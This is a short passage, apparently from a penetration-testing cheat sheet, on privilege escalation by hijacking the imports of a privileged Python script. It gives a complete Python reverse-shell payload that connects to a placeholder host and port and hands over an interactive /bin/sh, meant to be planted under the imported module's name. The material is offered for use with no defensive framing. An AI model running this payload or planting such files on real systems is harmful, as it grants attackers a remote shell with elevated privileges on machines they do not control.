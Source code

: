 ## Hijacking imports

If a target has a python file with elevated privs that imports files, we can create a new file (contents below) with the name of the imported file to get a shell as whoever has the privs for the file.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<host>",<port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```